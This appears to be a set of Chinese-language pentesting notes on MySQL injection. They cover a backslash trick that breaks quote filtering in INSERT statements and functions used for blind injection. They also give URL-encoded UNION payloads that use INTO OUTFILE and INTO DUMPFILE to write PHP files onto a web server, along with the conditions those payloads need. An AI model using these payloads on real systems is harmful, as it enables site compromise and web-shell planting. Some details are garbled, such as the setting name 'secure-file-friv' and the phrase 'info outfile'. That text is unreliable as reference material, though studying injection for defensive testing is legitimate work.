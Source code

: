 ```sql
insert into table_name(name,text) values('','');
```

但是这里过滤了引号,不能通过闭合导致注入

可以利用这里的两个可控参数,name参数使用 `\` 转义 `'`,使得第一个参数位的引号和第二个参数位的引号闭合:

```sql
insert into table_name(name,text) values('\','(select something...))#');
```

当多个参数可控时,可以组合利用,挖掘XSS漏洞是也可以用到

## MySQL 反引号

连续的两个反引号被当作一个空格看待

## 盲注

### MySQL内置函数

- length()
- substring(string, start, length),mid(),substr()
- 函数ascii() 返回字符串str的最左字符的ascii编码,空=>0,NULL=>NULL
- ord() 函数返回字符串第一个字符的 ASCII 值
- exp(e) 是以e为底的指数函数


## MySql写shell 

### outfile和dumpfile

into outfile 可以导出多行数据,但是会在换行符后追加反斜杠,还会在最后添加换行符.所以不适合导出二进制文件
into dumpfile 只能导出一行数据可以使用limit限制查询数据,不会追加反斜杠和换行符

利用条件:
- 数据库当前用户是root
- 单引号没有被过滤
- web服务的绝对路径
- 绝对路径写入权限

union查询注入点:

```sql
?id=1 UNION ALL SELECT 1,'<?php phpinfo();?>',3 into outfile 'C:\phpinfo.php'%23
?id=1 UNION ALL SELECT 1,'<?php phpinfo();?>',3 into dumpfile 'C:\phpinfo.php'%23
```

其他情况

```sql
?id=1 into outfile 'C:\info.php' FIELDS TERMINATED BY '<?php phpinfo();?>'%23
```

`secure-file-friv`用于限制`info outfile`和`into dumpfile`的输出目录
